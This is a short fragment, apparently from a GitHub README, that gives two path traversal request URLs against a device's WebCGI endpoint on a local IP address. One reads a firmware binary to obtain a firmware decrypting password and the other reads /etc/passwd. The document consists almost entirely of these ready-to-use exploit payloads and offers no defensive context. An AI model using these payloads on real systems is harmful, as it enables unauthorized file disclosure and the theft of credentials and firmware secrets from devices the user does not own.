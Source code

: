 INFO
----

    ## Example
    * to get  firmware decrypting password

    ```
    http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
    ```
    * to get /etc/paswd

    ```
    http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
    ```